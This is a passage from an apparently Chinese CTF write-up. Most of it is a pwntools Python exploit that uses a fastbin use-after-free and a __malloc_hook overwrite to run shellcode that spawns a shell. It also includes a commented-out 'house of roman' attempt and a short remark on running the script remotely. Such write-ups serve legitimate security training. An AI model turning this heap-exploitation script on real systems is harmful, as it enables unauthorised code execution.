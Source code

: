 ```python
	s(data)

#malloc(0x20,"O")	#
malloc(0x60,"writeshellcode")	#0

malloc(0x20,"O"*0x10)	#1
malloc(0x40,"A"*0x10)	#2
malloc(0x65,"B"*0x10)	#3
malloc(0x10,"C"*0x10)	#4



#house of roman#fail
'''
edit(3,0x52,"\x01"*0x40+p64(0)+p64(0x71)+"\xdd\x25")
malloc(0x65,"D"*0x10)	#4
flag=0xfbad1800
malloc(0x65,"\x00"*3+p64(0)*0x6+p64(flag)+p64(0)*3+"\x00")
'''

#fastbin -UAF-> control bss
free(0)
edit(0,0x20,p64(0x600ff5))
malloc(0x65,"D"*0x10)
malloc(0x65,asm(shellcraft.sh()).ljust(0x40,'\x00'))

#malloc_hook->bss
edit(1,0x30,"\x00"*0x20+p64(0)+p64(0xc1)) # size 0x51 ->0x51+0x70
free(3)
free(2)
malloc(0x40,"X"*0x10)

edit(2,0x52,"\x01"*0x40+p64(0)+p64(0x71)+"\xed\x1a")
malloc(0x65,"D"*0x10)	
sh=0x601005
malloc(0x65,"D"*0x3+p64(0)*2+p64(sh))

ru("Your choice :")
sl(str(1))
ru("Size:")
sl(str(0xa))



p.interactive()
```

本地写个脚本多跑几遍就出来了，一开始远程居然打不了。。。后来发现不小心注释了context系统版本。

![e6eJFU](https://gitee.com/p0kerface/blog_image_management/raw/master/uPic/e6eJFU.png)
